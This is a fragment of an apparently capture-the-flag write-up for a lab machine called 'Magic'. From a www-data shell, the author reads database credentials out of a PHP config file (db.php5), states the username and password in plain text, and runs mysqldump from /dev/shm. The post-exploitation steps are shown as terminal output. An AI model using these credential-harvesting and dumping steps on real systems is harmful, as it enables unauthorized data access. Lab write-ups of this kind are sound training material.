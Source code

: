 ```
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
www-data@ubuntu:/var/www/Magic$ 
```

I found the credential **theseus:iamkingtheseus** from the `db.php5` and now I can access `Magic's` database

## **<span style='color:#ff5555'>MySQL Dump</span>**
***

```
www-data@ubuntu:/var/www/Magic$ cd /dev/shm                                                                                                                                                        
cd /dev/shm                                                                                                                                                                                        
www-data@ubuntu:/dev/shm$ mysqldump Magic -u theseus -p                                                                                                                                            
mysqldump Magic -u theseus -p                                                                                                                                                                      
Enter password: iamkingtheseus                                                                                                                                                                     
                                                                                                                                                                                                   
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)                                                                                                                                            
--                                                                                                                                                                                                 
-- Host: localhost    Database: Magic                                                                                                                                                              
-- ------------------------------------------------------                                                                                                                                          
-- Server version       5.7.29-0ubuntu0.18.04.1                                                                                                                                                    
                                                                                                                                                                                                   
/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;                                                                                                                                  
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;                                                                                                                                
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;                                                                                                                                  
/*!40101 SET NAMES utf8 */;                                                                                                                                                                        
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;                                                                                                                                                        
```